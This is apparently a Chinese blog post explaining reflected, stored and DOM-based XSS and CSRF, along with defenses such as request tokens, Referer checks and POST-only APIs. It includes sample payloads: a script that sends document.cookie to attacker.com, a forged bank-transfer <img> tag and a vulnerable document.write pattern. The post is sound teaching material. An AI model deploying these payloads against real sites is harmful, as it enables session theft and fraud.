 ```yaml
---
title: xss和csrf
date: 2018-07-09 11:02:34
tags: 浏览器
---
```


# xss

> cross site scripting 的缩写，即跨站脚本攻击（为了不与 css 混淆）

- 主要分为三类，反射型、保存型和基于 dom 的 xss 攻击。这些漏洞的基本原理都一样，但是确定和利用漏洞方面又存在很大差异。

## 反射型

- 如果一个 web 程序可以动态的显示用户的错误信息，就有可能产生反射型漏洞
- 显著特征是应用程序没有进行任何过滤和净化措施

### 案例

- 如果一个网站的错误消息是这样显示的，www.xxx.com/error.php?message=sorry,an error occurred，然后服务器根据得到的 message，不进行过滤，复制到错误页面的模板<p>sorry,an error occurred</p>，返回给用户
- www.xxx.com/error.php?message=<script>alert(1)</script>，当用户打开错误页面的时候，就会出现<p><script>alert(1)</script></p>，弹出一个消息框

- 当然攻击者不会很傻的只 alert 一些消息，通常 xss 都会伴随会话劫持，截获通过验证的会话令牌。
- 截获用户的会话后，就可以访问该用户授权访问的所有数据和功能
- 比如攻击构造这样一个 url，message 信息如下

```javascript
let i = new Image();
i.src = "http://attacker.com?cookie=" + document.cookie;
```

- 由于浏览器的同源策略，直接向 attacker.com 发送 cookie 是无法获得 www.xxx.com 的 cookie，但是 img，iframe，scipr 标签可以跨域，这就是该漏洞被成为跨站脚本的原因。

## 保存型

- 脚本通常保存在后端数据库，不经过过滤就存储并且显示给用户
- 与反射性的流程不同的是，保存型需要向服务器提出至少两次请求，第一次将含有恶意代码的数据提交给服务器，服务器将数据保存，第二次是受害者访问含有恶意代码的数据，恶意代码执行
- 与反射型不同的是，保存型不需要一个专门设计的 url 来接受 cookie，只需要将含有恶意代码的页面发给用户，等待受害者访问即可。不过也可以用保存型的漏洞来获取用户 cookie 劫持。
- 如果社交论坛存在保存型的 xss 漏洞，黑客将自己的个人信息一栏修改成恶意的 js 代码，该代码实现两个功能，首先受害者先加自己为好友，然后修改受害者的个人信息为该恶意代码。黑客把个人信息保存并提交给服务器，只需要等受害者访问自己的个人信息页面，浏览器就会执行恶意脚本，然后可怕的“蠕虫”就开始了

## 基于 dom 的 xss 漏洞

- 前两种 xss 漏洞，都表现为一种特殊的模式，就是应用程序提取数据并返回给受害者。而基于 dom 的 xss 不具有这种特点，攻击者是借助于 javascript 来展开攻击的

## 案例

```javascript
let url = document.location;
let message = /message=(.+)$/.exec(url)[1];
document.write(message);
// js脚本中这样写，如果攻击者给受害者发送www.xxx.com/error.php?message=<script>alert(1)</script>，也可以展开xss漏洞攻击
```

- 所以写 js 的前端同学注意了，万一写出了有漏洞的代码，这锅得自己背。

# csrf

> cross site request forgery 的缩写，即跨站脚本请求伪造

- 顾名思义是，是伪造请求冒充用户在站内的正常操作。
- 我们知道绝大多数网站是通过 cookie 等方式辨识用户身份（包括服务器端 session 的网站，因为 session id 大多也是保存在 cookie），再予以授权。
- 所以要伪造用户的正常操作，最好是通过 xss 或者链接欺骗等途径，让用户再本机（即拥有身份 cookie 的浏览器端）发起用户所不知道的请求（xss 是实现 csrf 的手段之一）

## 案例

- 一论坛网站的发帖是通过 get 请求访问，点击发帖之后 js 把发帖内容拼接成目标 url 并访问：http://example.com/bbs/create_post.php?title=标题&content=内容
- 那么我在论坛发一贴http://example.com/bbs/create_post.php?title=我是脑残&content=哈哈，只要有用户看到这个链接，那么他们的账户就会在不知情的情况下发布了这一个帖子。
- 如果一家银行用以执行转账操作的 url 为 http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName，那么黑客可以可以再另一个网站上放置如下代码：<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">
- 如果有账户名为 alice 的用户访问了恶意站点，而她之前也刚访问锅银行不久，登陆信息尚未过期，那么她就会损失 1000 元

## 解决方案

- 如何解决这个问题，过滤用户输入，不允许发布这种含有站内操作 url 的链接，这么做可能有点用，但是阻挡不了 csrf，因为攻击者可以通过 qq 发布这个链接，这样点击到这个链接的用户一样会中招

- 所以对待 csrf，我们的视角需要和对待 xss 有所不同。csrf 不一定要有站内的输入，因为他不属于注入攻击，而是属于请求伪造。被伪造的请求可以是任何来源，而非一定是站内。

- 过滤请求的处理者
  - 检查 Referer 字段：可以检查是否来源于该域名（但是请求者是可以更改 http 请求头的，他可以给这个任何值）
  - 添加校验 token：也就是请求令牌，由于 csrf 的本质在于攻击者欺骗用户去访问自己设置的地址，所以如果要求再访问敏感数据请求的时候，要求用户浏览器提供不保存在 cookie 中，并且攻击者无法伪造的数据作为校验，那么攻击者就无法执行 csrf 攻击。这种数据通常是表单中的一个数据项。服务器将其生成并附加在表单中，其内容是一个伪乱数。当客户端通过表单提交请求的时候，这个伪乱数也一并提交上去校验。
- 改良站内 api 的设计，对于发布帖子这类创建资源的操作，应该只接受 post 请求，而 get 请求应该只浏览。最好是采用 REST 风格设计。

# 推荐阅读

- [总结 xss 与 csrf 两种跨站攻击](https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/)
